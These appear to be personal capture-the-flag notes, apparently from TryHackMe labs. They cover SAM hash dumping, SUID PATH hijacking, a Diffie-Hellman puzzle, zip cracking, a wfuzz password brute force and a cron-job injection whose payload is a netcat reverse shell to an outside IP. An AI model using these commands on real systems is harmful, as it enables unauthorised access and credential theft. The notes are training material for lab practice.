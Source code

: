 After getting a shell on some machine using RCE I need to deliver the NTLM hash

In windows, the registry in a binary file format store in ==System32/config/ with name SAM, SECURITY , SYSTEM & Default.==

![](attachment/d056b8c8f38f256caa8ce96352e8b7dd.png)

then I downloaded them from the server:

![](attachment/16635d94a8848bf27fd4653b9226340a.png)

![](attachment/a6d047c3e2fe1414b16561484b406303.png)

After collect those file it need to hash dump to get hash value. Here, “Samdump2” is best tool for hash dump.

![](attachment/9ebb4c90cb9300a77838999162788afa.png)

---

Create our own binary and add it to the path to gain privilege

![](attachment/fd86351322fbce14372db45693bac3f2.png)

![](attachment/38caaf2efacc09a4480da4063f94ef0d.png)

Now path is updated and upon execution of backup binary we’d get root. Let’s run the binary.

![](attachment/492438e417dd55d23ab0f0ec31409a0e.png)

all this because I found in binary file using strings this command

![](attachment/0e18e748ec89acc50ccdb860b6509691.png)

cp command is being executed without absolute path (/bin/cp), that means when this binary get executed, our shell search for “cp” in each directory in the path list to look fo the executable file by that name. Then shell will then run the first matching program it finds.

We can take advantage of this misconfiguration in SUID binary (backup). This is our default path.

---

## Duffle-hellman key exchange

```JavaScript
Still, remember the “Diffie-hellman” comment? I’m trying to google the keyphrase and come across with this simple video.

This video explains how Diffie-hellman key exchange works. There are 3 basic elements in this video which are the prime key, Alice secret key and Bob secret key.

Prime key: 3 mod 17 (Known by everyone, even the eavesdropper) Alice secret key: 15 Bob secret key: 13

Step 1: Alice send the public key Alice public key (A) = (3^15) mod 17 = 6

Step 2: Bob send the public key Bob public key (B) = (3^13) mod 17 = 12

Step 3: Bob and Alice obtain the shared secret key Alice shared key= (bob public key (B) ^ Alice secret key) mod 17 = (12^15) mod 17 = 10 … (1) Bob shared key = (Alice public key (A) ^ Bob secret key) mod 17 = (6^13) mod 17 = 10 … (2)

To unify the equation Since A = (3^15) mod 17, substitute into (2). Bob shared key = (3^15^13) mode 17

Since B = (3^13) mod 17, substitute into (1). Alice shared key = (3^13^15) mode 17

The final equation Shared key = 3^(Alice secret key)^(Bob secret key) mod 17 or Shared key = g^(User 1 secret key)^(User 2 secret key)^…(User N secret key) mod p where g and p are prime keys.

Back to the information given, we have 2 secret keys (a and b), 2 prime key (g and p) and 1 public key (g^c). To get the shared key, we can generate the following equation: Shared key = (g^abc) mod p This shared key will lead us to the secret directory.
```

![](attachment/fc029cfb5da7a9fbb0425350cb1c65ba.png)

![](attachment/b5fdf45374cab25976453ada8cb5ad86.png)

We got the shared key by doing some simple arithmetic on the python shell. However, this is not the directory we wanted. The secret directory holds 128 characters. To do that, simply convert the shared key to string and then break it up.

![](attachment/ccd0b929635a1ac6185cbb0efe273b2a.png)

![](attachment/0e15242f9d8a833589b3561b085fd329.png)
---
Unfortunately, the zip file is password protected. To attempt to access the contents of the file, we can use the zip2john tool to convert the zip file into a hash and then use John the Ripper to crack the hash. This process may reveal the password for the zip file, allowing us to access its contents.

![](attachment/da661075ca1900758ebc98fa791e3b2a.png)
![](attachment/f23f34428e98888b3e79065fc20ffd8f.png)
![](attachment/b045aa8ce0f050d53f2a84d1049226b5.png)
Problem Solved

---
wfuzz with ==Content-Type: application/json== header to fuzz
```
wfuzz -w /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-45.txt -c -H 'Content-Type: application/json' -d '{"username":"maui","password":"FUZZ"}' --hh 31 -t 50 http://api.motunui.thm:3000/v2/login
```
![](attachment/4b647423e3ad1e8864db54ec5be94c58.png)
![](attachment/24b04f2b4ccd007257e73d7c02b2db10.png)
![](attachment/b67c4e1d4578ce03d3f395b7e2053e0d.png)
Looks like there are no any cronjobs running for user maui. Since we can create a new job, lets try if we can get code execution.
Creating a new job:
I used * * * * * which means the payload runs every minute. You can craft your own cron easily at [Crontab.guru.](https://crontab.guru/)
```
curl http://api.motunui.thm:3000/v2/jobs -XPOST -H 'Content-Type: application/json' -d '{"hash":"aXNsYW5k","job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.217 4444 >/tmp/f"}'
```
![](attachment/8ab7fd9b14a7298f66d8b441c3ba6f73.png)
and I got a shell

---
after getting shell on some machine I ran linpeas again and found out that user moana can edit a .service file.
![](attachment/f6cfa5b4b79cd2e7d3b533b61ae3c478.png)
We can edit this file and when the program restarts ==/usr/bin/node /var/www/api.motunui.thm/server.js== command is executed. But even though we can change the content of the file, we do not have permission to reload the **systemd daemon**, which means we can not get code execution as root until we can find a way to reload the daemon.
###### File Permission for /var/www/
I was not very familiar with how exactly this all works, so I began to play with the service and files.
![](attachment/7fd35e3e0e5f80a8202780f0c4d34b53.png)
Since www-data owns all the files, we can easily edit the files. So, lets try editing server.js and check if it is actually reflected on the webserver.

----
